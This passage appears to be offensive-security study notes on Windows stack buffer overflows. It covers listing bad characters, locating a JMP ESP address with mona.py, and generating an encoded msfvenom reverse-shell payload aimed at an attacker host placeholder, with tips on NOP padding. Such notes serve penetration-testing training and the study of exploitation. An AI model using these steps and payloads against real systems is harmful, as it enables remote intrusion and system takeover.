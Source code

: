 ```sh
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

* Jumping via ESP
```sh
# we need to find a way to jump to the address pointed to by ESP from our controlled EIP; mona.py can find this for us
!mona jmp -r esp

# it is important to note that we must look for options not protected by ASLR and which do not
# contain bad characters; bad characters can be excluded in the search with
!mona jmp -r esp -cpb "\x00\x0a"

# mona's above search may be limited to code segments, but without DEP we have access to data
# program segments, too; we can begin a more in-depth search by inspecting all modules which
# could provide our desired jump
!mona modules

# the above output will give us a list of DLLs and other modules that we can jump from; we want
# to look for options with all security options (such as SafeSEH and ASLR) disabled; we also want
# rebase to be disabled

# we next find the literal opcode of our desired JMP ESP instruction
msf-nasm_shell
nasm > JMP ESP
00000000  FFE4              jmp esp

# finally, we can search for where FFE4 naturally occurs in our previously identified DLL / module
!mona find -s "\xFF\xE4" -m <modulename>

# again, we must choose from the found list of addresses, making sure to avoid bad characters;
# it may be prudent to manually check the contents of the found address to ensure that it indeed
# contains a JMP ESP instruction; rember that this address may need to be reversed in little-endian
# style in our payload
```

* Generating your payload
```sh
# make sure to exclude bad characters; this is the `-b "\x00\x0d"` part of the below line
msfvenom -p windows/shell_reverse_tcp LHOST=<attackip> LPORT=<attackport> -f c -e x86/shikata_ga_nai -b "\x00\x0d"

# since Metasploit will attempt to decode our payload in the first few bytes of its execution (thus pushing/popping
# values from the stack and consequently writing over the first few bytes of our payload), we should pad our
# buffer with NOPs (i.e., something like `'\x90' * 10`); an alternative approach involves executing an instruction
# to point ESP somewhere far away from our shellcode via `sub esp,240h` or `add esp,-240h` (note: we ALWAYS want
# ESP to be divisible by 4)

# for multi-threaded applications, you may achieve a more graceful exit from your payload with the `EXITFUNC=thread`
# option specified during payload generation
```
